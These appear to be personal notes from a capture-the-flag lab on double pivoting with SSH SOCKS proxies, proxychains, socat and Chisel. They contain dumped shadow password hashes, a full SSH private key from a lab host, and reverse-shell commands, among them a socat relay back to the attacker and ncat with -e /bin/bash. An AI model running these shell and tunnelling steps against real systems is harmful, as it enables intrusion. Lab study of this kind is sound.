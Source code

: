 
Let's see if i have understood the concept of Pivoting correctly or there are some loop holes which i need to work on.

SO what i am going to do it i will not use any software like
Chisel / Sshuttle / Socat etc....

And try to do the configuration of Double pivoting using Proxychains and SSH.


### The Layout

Machines in Wreath lab are as follows:

| IP            | Hostname    | Notes           |
| ------------- | ----------- | --------------- |
| 10.50.88.33   | `attack`    | My box          |
| 10.200.87.200 | `Prod-Serv` | First jump box  |
| 10.200.87.150 | `Git-Serv`  | Second jump box |
| 10.200.87.100 | `Wreath-PC` | Final machine   |


Important thing to know is:

- `attack` can only talk to `Prod-Serv`
- `Prod-Serv` can only talk to `Git-Serv`
- `Git-Serv` can only talk to `Wreath-PC`


## So How Does `attack` talk to `Wreath-PC`?

We use `ssh` SOCKS proxies. A [SOCKS](https://en.wikipedia.org/wiki/SOCKS) proxy differs from traditional port forwarding in that SOCKS is a protol, whereas port forwarding is routing. If it is easier to visualize using the OSI model, port forwarding occurs at the network layer, while SOCKS proxying works at the application layer. Put simply, you can send any type of network traffic over a port forward: ssh traffic, http traffic, raw bytes, whatever. SOCKS is a protocol, so the communication must occur using the [defined protocol](https://ftp.icm.edu.pl/packages/socks/socks4/SOCKS4.protocol).

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```


id_rsa (i.e. /root/.ssh/id_rsa)
```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Let's login 1st:
```
 ssh -i id_rsa root@thomaswreath.thm
```

Let's establish the SOCKS:
```
ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm
```

This is what worked for me as i don't have a password
```
ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm -i id_rsa
```


What each flag does:

| Flag | Explanation                                                                                                                                                          |
| ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `-f` | This sends the command to background right before executing a command remotely (think `command &`)                                                                   |
| `-N` | This tells `ssh` not to execute a command remotely. We are just establishing a tunnel/proxy, no need to execute a command.                                           |
| `-D` | This tells `ssh` to establish a local dynamic application-level port forwarding. This is the local port we will send our requests to IE where our SOCKS proxy exists |

![[Pasted image 20240716123655.png]]

```
 ss -tulpn | grep 88
```

Once we have a SOCKS proxy established, we can then use `proxychains4` to communicate over the newly established tunnel/proxy. I make a local config file to use.

```
socks4  127.0.0.1 8888 # From our machine to jumpbox1 (i.e. Prod-Serv) via this command you ran: ssh -f -N -D 127.0.0.1:8888 root@thomaswreath.thm
```


```
proxychains4 -f ~/new-proxychains.conf ssh jumpbox2.local
```


>[! bug] Important
As we can't do a forward proxy through ssh to jumpbox1

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

Reverse Shell

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```


# Socat

socat makes a very good relay: for example, if you are attempting to get a shell on a target that does not have a direct connection back to your attacking computer, you could use socat to set up a relay on the currently compromised machine. This listens for the reverse shell from the target and then forwards it immediately back to the attacking box:

### Set up a relay
```
socat tcp-listen:8000,fork tcp:10.50.88.33:4444 &
```

### Set up a reverse shell
```
./ncat_sardarji 127.0.0.1 8000 -e /bin/bash
```

![[Pasted image 20240725165921.png]]

So how to do the above process using SSH and proxychains

```
ssh -L 8080:10.50.88.33:443 root@thomaswreath.thm -i id_rsa
```

```
socks4 127.0.0.1 9000
```

```
proxychains curl http://10.50.88.33:8080/socat_sardarji -o socat_sardarji
```


# Chisel 

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact it doesn't require SSH access on the compromised target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:


### Chisel binary has two modes: _client_ and _server_.

Attack Machine
```
./chisel server -p LISTEN_PORT --reverse &
```

```
curl 10.50.106.240/chisel_1.9.1_linux_amd64  -o chisel-sardarji
```

```
Attacker
./chisel_1.9.1_linux_amd64 server -p 1337 --reverse & 
```

![[Pasted image 20240727174405.png]]

Compromised
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
client 10.50.88.33:1337 R:socks &
```


Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.


## Forward Sock Proxy
Victim
```
./chisel server -p LISTEN_PORT --socks5
```

Attacker
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```



<h2>So basically we are doing Reverse Socks / Forward Socks/ Remote Port Forward / Local Port Forward </h2>

```

./chisel server -p 4242 --reverse
./chisel client 172.16.0.200:4242 R:socks &

./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
./chisel client 172.16.0.200:1337 R:3306:172.16.0.100:3306 &

./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
./chisel client 172.16.0.10:4444 8000:172.16.0.5:80
```


